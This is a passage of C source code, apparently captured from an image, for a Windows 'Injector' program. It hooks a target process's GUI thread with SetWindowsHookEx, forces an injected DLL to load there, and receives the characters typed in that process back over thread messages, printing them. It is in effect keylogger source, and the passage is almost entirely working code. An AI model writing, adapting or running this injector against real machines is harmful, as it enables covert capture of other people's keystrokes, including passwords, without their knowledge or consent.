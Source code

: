 ```c
int wmain(int argc, wchar_t* argv[]) {
    if (argc < 2) {
        wprintf(L"Usage: Injector <PID>\n");
        return 1;
    }

    DWORD pid = _wtoi(argv[1]);
    DWORD tid = FindUIThread(pid);
    if (!tid) {
        wprintf(L"No GUI thread found in PID %u.\n", pid);
        return 1;
    }

    // Load the DLL
    HMODULE hDll = LoadLibrary(L"injected.dll");
    if (!hDll) {
        wprintf(L"Failed to load injected.dll\n");
        return 1;
    }

    // Get hook function pointer
    typedef LRESULT (CALLBACK *HOOKPROC)(int code, WPARAM wParam, LPARAM lParam);
    HOOKPROC HookFunc = (HOOKPROC)GetProcAddress(hDll, "HookFunc");
    if (!HookFunc) {
        wprintf(L"HookFunc not found\n");
        return 1;
    }

    // Get SetNotify function pointer
    typedef void (CALLBACK *SETNOTIFY)(DWORD);
    SETNOTIFY SetNotifyTID = (SETNOTIFY)GetProcAddress(hDll, "SetNotifyTID");
    if (!SetNotifyTID) {
        wprintf(L"SetNotifyTID not found\n");
        return 1;
    }

    // Tell the DLL the thread ID of this injector, so it can post messages back
    DWORD myTID = GetCurrentThreadId();
    SetNotifyTID(myTID);

    // Install the hook
    HHOOK hHook = SetWindowsHookEx(WH_GETMESSAGE, HookFunc, hDll, tid);
    if (!hHook) {
        wprintf(L"SetWindowsHookEx failed\n");
        return 1;
    }

    // Force a message to load the DLL in target
    PostThreadMessage(tid, WM_NULL, 0, 0);

    // Message loop to receive chars from DLL
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        if (msg.message == WM_APP) {
            // Received a character
            wchar_t ch = (wchar_t)msg.wParam;
            if (ch == L'\r') wprintf(L"\n");
            else wprintf(L"%c", ch);
        }
        else if (msg.message == WM_QUIT) {
            break;
        }
        // TranslateMessage & DispatchMessage if needed
```